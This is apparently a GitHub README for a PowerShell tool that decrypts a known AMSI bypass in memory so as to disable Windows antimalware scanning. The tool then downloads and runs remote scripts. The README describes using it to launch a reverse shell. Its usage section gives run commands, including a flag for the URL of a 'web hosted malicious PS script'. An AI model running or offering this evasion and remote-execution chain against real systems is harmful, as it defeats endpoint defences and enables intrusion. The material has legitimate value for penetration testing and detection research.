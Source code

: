 # AMSIReflectionCrypt
Forcing AMSI Fail by Decrypting 'Matt Graebers one-liner AMSI bypass' in memory [AES-128]
and invoke PowerShell command execution from remote scripts after AMSI is bypassed.

in the example shown, the bypass is used to Invoke a reverse shell after AMSI is bypassed:

![ezgif com-resize (2)](https://user-images.githubusercontent.com/91469978/229790638-09003b42-08cd-4a4f-9a43-db74ee5ff4e9.gif)

# Usage
```
  git clone https://github.com/M0M3NTUM44/AMSIReflectionCrypt.git
  cd AMSIReflectionCrypt
  .\AMSIReflectionCrypt.ps1 -h
```
-ts  Invoke the TestScript.ps1 from GitHub.
```
.\AMSIReflectionCrypt.ps1 -ts
```
-u   Full path to your web hosted malicious PS script (Default - TestScript.ps1 from GitHub).
```
.\AMSIReflectionCrypt.ps1 -u https://PATH/TO/script.ps1
```
The TestScript.ps1 file simply types "amsiutils" (flagged string) to the terminal to test if AMSI detection was Bypassed.

# Credits & Resources
1. https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/
2. https://twitter.com/mattifestation
